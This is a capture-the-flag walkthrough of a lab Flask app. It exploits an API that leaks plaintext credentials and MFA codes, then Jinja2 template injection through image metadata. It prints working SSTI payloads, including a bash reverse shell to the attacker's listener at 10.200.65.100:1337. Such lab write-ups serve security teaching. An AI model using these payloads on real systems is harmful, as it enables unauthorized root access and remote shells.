In this walkthrough, we will be compromising Verbose, an easy-difficulty web application lab from Hack Smarter Labs. The target is a Flask web application with open user registration. After registering an account, we intercept a request to `/api/users/all` in Burp Suite that returns plaintext credentials for every user in the database, including the admin account. An MFA prompt blocks admin login, but re-querying the same endpoint leaks the generated MFA code. With admin access, a file upload feature in the site branding panel reflects image metadata into the page template, and we confirm Jinja2 Server-Side Template Injection (SSTI) by injecting payloads through exiftool. Escalating from SSTI to remote code execution returns a shell as `root` for full server compromise.


Created by: [Tyler Ramsbey](https://www.hacksmarter.org/courses/5018ef14-b136-4331-aef0-8fb0a88a3efb)

Let's get started.

## Objective

You have been authorized to perform an external penetration test against a target organization. During the initial reconnaissance phase, you identified a web application that allows unrestricted public user registration.

1. **Enumerate:** Map the application's attack surface and functionality.
2. **Identify:** Locate exploitable vulnerabilities within the application logic or configuration.
3. **Exploit & Escalate:** Leverage identified flaws to compromise the system, with the final goal of securing root access to the host server to demonstrate maximum impact.

## Scope

**Target:** `10.1.69.115`

## Nmap

We scan every port with `-p-`, pulling service versions with `-sV` and the default script set with `-sC`.

```
nmap -p- --open -sC -sV -T4 10.1.69.115
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 93:07:ff:15:fe:3f:48:f8:2f:12:d4:17:73:db:a7:dd (ECDSA)
|_  256 5f:74:1d:0f:b2:39:23:ad:77:9a:45:70:1a:f4:51:26 (ED25519)
80/tcp open  http    Werkzeug httpd 3.1.5 (Python 3.12.3)
|_http-server-header: Werkzeug/3.1.5 Python/3.12.3
| http-title: Hack Smarter Portal
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



*Nmap scan: SSH on 22 and HTTP on 80 with Werkzeug and Python identified*

Two ports open. The HTTP banner identifies Werkzeug 3.1.5 running Python 3.12.3, and the page title redirects to `/login`. Let's check whether SSH accepts password authentication.

```
ssh root@10.1.69.115
```

```
root@10.1.69.115: Permission denied (publickey).
```



*SSH requires key-based authentication with no password login available*

SSH requires a key, so we set it aside and focus on the web application.

## HTTP (Port 80)

We proxy through Burp Suite so every request the application makes is captured for later review, then navigate to `http://10.1.69.115`. The application presents a login page for the Hack Smarter Portal.



*Verbose web application with Wappalyzer confirming Flask and Python*

Wappalyzer confirms this is a Flask application running Python. We register an account and click through the application as a standard user. The messages feature displays a list of users available to message.



*Messages feature displaying available users on the platform*

## Access as admin

Clicking through the application fills up Burp's proxy history, and in there is a GET request to `/api/users/all` triggered by the messages page. The response returns far more than a messages feature needs.

```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.5 Python/3.12.3
Date: Sun, 21 Jun 2026 22:52:43 GMT
Content-Type: application/json
Content-Length: 570
Connection: close

[{"email":"tony@hacksmarter.local","id":1,"mfa":null,"password":"basketball","role":"user","username":"tony"},{"email":"johnny@hacksmarter.local","id":2,"mfa":null,"password":"dolphin","role":"user","username":"johnny"},{"email":"admin@hacksmarter.local","id":3,"mfa":null,"password":"YouWontGetThisPasswordYouNoobLOL123","role":"admin","username":"admin"},{"email":"student@hacksmarter.local","id":4,"mfa":null,"password":"liverpool","role":"user","username":"student"},{"email":"bird@test.com","id":5,"mfa":null,"password":"password","role":"user","username":"bird"}]
```



*Burp Suite: /api/users/all returning plaintext credentials for all users including admin*

The API dumps the entire user table in plaintext: usernames, emails, passwords, roles, and an `mfa` field that is `null` for everyone. The admin password is `YouWontGetThisPasswordYouNoobLOL123`, so we log out and authenticate as `admin`.



*MFA prompt blocking admin login after credential entry*

The application prompts for an MFA code. Submitting the password is what makes the server generate one, and that code is stored in the same `mfa` field the API hands out without restriction, so we send the request to Burp Repeater and fire it again.



*Burp Repeater: MFA code populated for admin after re-querying /api/users/all*

The `mfa` field for admin is now populated. We enter the code and complete the login. The Admin Panel gives us our first flag.



*Admin panel accessed with first flag retrieved*

## Shell as root (root.txt)

The front page of the Admin Panel has a Site Branding section that accepts a PNG upload.



*Admin panel Site Branding section with PNG file upload*

We upload a test PNG and click `Preview Current Logo`. The preview page displays image metadata fields including `Copyright / Artist`. If the application renders metadata into the page, we control what gets displayed by editing the metadata with exiftool.

```
exiftool -Artist="0xB1rd" image.png
```



*exiftool: Artist field set to 0xB1rd on test image*

We upload the modified image and preview it. Our input comes back on the page under the metadata field.



*Reflected input: 0xB1rd rendered in the Copyright / Artist metadata field*

Reflected input into a Flask page means the templating engine is almost certainly Jinja2, which makes [Server-Side Template Injection](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) the path worth testing. In an SSTI the application drops our input into the template before rendering it, so instead of being printed as text it gets evaluated as template code. Cross-Site Scripting would not move us forward here since we already hold admin on the application, and what we want is the server. We start with a basic arithmetic test.

```
exiftool -Artist="{{7*7}}" image.png
```

We upload the image and click `Preview Current Logo`. The metadata field displays `49` rather than the literal string.



*SSTI confirmed: Jinja2 expression {{7\*7}} rendered as 49*

SSTI is confirmed. Now we escalate to remote code execution. Jinja2 does not expose `os` directly, so the payload chains attribute lookups out to Python's built-in namespace, imports `os` from there, and runs a command with the output returned into the page.

```
exiftool -Artist="{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}" image.png
```

We upload, preview, and the metadata field displays `uid=0(root) gid=0(root) groups=0(root)`.



*RCE via SSTI: id command returning uid=0(root) gid=0(root) groups=0(root)*

With RCE as root we swap the command for a reverse shell payload and embed it in the image metadata.

```
exiftool -Artist="{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \"bash -i >& /dev/tcp/10.200.65.100/1337 0>&1\"').read() }}" image.png
```

We start our Penelope listener, which upgrades the TTY on its own once a shell lands.

```
penelope -p 1337
```

We upload the image and click `Preview Current Logo`. The web application hangs as the reverse shell connects, and Penelope catches it.



*Penelope: reverse shell received as root on Verbose*

We confirm with `id` that we are root and grab the final flag from `/root/root.txt`.



*root.txt: final flag captured from /root directory*

## Final Thoughts

Image metadata as an SSTI entry point was new to me. I got there by noticing the `Copyright / Artist` field came back rendered instead of escaped, which is easy to walk past when you are looking at an upload feature for file type tricks instead. The MFA bypass was the other one I did not see coming, since the code turned up in an endpoint I had already read once and moved on from.

The `/api/users/all` endpoint is the root of all of it. API endpoints need role-based authorization, and none of them should be returning stored passwords or a live MFA code. Input reaching a template engine has to be escaped, and image metadata counts as input. The application also ran as root, so template injection went straight to the host with no escalation step. A least-privilege service account would have kept that to a foothold.

— 0xB1rd
